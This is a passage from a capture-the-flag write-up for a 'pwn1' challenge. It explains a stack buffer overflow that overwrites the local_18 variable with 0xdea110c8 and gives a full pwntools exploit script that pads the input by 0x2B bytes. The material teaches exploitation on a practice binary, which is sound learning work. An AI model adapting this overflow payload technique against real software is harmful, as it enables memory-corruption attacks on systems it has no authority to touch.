 
The idea here is that if we provide an input which is large enough to fill the space between the two variables, that is  0x43 - 0x18, which equals to 0x2B, we will be able to get to the ```local_18``` variable and write into it. 

Fortunately for us, we can do just that with a short piece of Python code. It uses the pwntools Python module. You can find the entire file in this repo.

```
# import pwntools 
from pwn import *

# creates a process which runs the pwn1 executable
p = process('./pwn1')

# creates the payload
payload = b""
# pads the payload by 0x2b to get to the local_18 variable
payload += b"0"*0x2b
# at the location of the local_18 variable rewrites the variable to 0xdea110c8 (in the form of a byte string)
payload += p32(0xdea110c8)

# sends the correct answers to the process with the two first answers
p.sendline(b"Sir Lancelot of Camelot")
p.sendline(b"To seek the Holy Grail.")

# sends the payload which reqrites the local_18 variable
p.sendline(payload)

# allows interaction with the terminal
p.interactive()
```
The key part is creating the payload where we add 0x2B worth of zeroes followed by the value of 0xdea110c8 in little-endian. This payload is then sent as an input for the local_43 variable which then spills into the local_18 with just the right value and gets us the flag.
